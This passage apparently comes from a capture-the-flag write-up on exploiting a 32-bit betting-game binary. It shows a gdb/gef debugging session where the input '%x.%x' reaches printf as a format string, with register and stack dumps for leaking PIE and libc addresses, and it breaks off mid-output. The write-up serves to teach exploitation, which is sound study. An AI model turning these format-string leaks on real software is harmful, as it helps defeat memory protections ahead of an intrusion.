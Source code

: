 ## Infoleak

Let's take a look at how we are doing the `PIE` and `LIBC` infoleak.

```
gef➤  pie b *0x9df
gef➤  pie run
Stopped due to shared library event (no libraries added or removed)
Welcome to the ultimate betting service.
Enter the amount of players: 1
Name: %x.%x
Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game
1
Amount of players playing this round: 1
Each player makes a bet between 0 -> 100, the one who lands closest win the round!
%x.%x's bet: 1

Breakpoint 1, 0x565559df in ?? ()
[+] base address 0x56555000
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0xffffd06c  →  "%x.%x"
$ebx   : 0x56557540  →  0x0000242c (",$"?)
$ecx   : 0x0       
$edx   : 0xf7fb6890  →  0x00000000
$esp   : 0xffffd020  →  0xffffd06c  →  "%x.%x"
$ebp   : 0xffffd0b8  →  0xffffd118  →  0x00000000
$esi   : 0x56558980  →  0x565589c0  →  "%x.%x"
$edi   : 0x0       
$eip   : 0x565559df  →   call 0x565555a0 <printf@plt>
$eflags: [zero carry PARITY ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063
────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd020│+0x0000: 0xffffd06c  →  "%x.%x"     ← $esp
0xffffd024│+0x0004: 0x5655605c  →  "And the winner is *drumroll*:"
0xffffd028│+0x0008: 0xf7fb55c0  →  0xfbad2288
0xffffd02c│+0x000c: 0x565558d5  →   mov ecx, eax
0xffffd030│+0x0010: 0x00000001
0xffffd034│+0x0014: 0x00000000
0xffffd038│+0x0018: 0xf7e0f53b  →   add eax, 0x1a5ac5
0xffffd03c│+0x001c: 0x56558980  →  0x565589c0  →  "%x.%x"
──────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0x565559d8                  sub    esp, 0xc
   0x565559db                  lea    eax, [ebp-0x4c]
   0x565559de                  push   eax
 → 0x565559df                  call   0x565555a0 <printf@plt>
   ↳  0x565555a0 <printf@plt+0>   jmp    DWORD PTR [ebx+0x10]
      0x565555a6 <printf@plt+6>   push   0x8
      0x565555ab <printf@plt+11>  jmp    0x56555580
      0x565555b0 <fflush@plt+0>   jmp    DWORD PTR [ebx+0x14]
      0x565555b6 <fflush@plt+6>   push   0x10
      0x565555bb <fflush@plt+11>  jmp    0x56555580
──────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
```
